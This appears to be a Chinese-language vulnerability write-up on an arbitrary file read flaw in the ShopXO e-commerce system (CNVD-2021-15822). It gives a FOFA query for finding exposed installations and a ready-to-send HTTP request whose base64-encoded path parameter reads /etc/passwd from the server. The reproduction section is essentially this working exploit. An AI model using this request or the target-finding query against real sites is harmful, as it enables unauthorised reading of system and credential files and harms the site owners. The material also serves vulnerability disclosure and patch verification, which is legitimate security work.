 # ShopXO-download-任意文件读取漏洞-CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ShopXO

## FOFA

> [!NOTE]
>
> app="ShopXO企业级B2C电商系统提供商"

## 漏洞复现

商城主页如下

![](ShopXO-download-任意文件读取漏洞-CNVD-2021-15822.assets/16273630339724422.jpg)

发送漏洞请求包

```
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**

![image-20210602084556460](ShopXO-download-任意文件读取漏洞-CNVD-2021-15822.assets/1627363034287616.jpg)

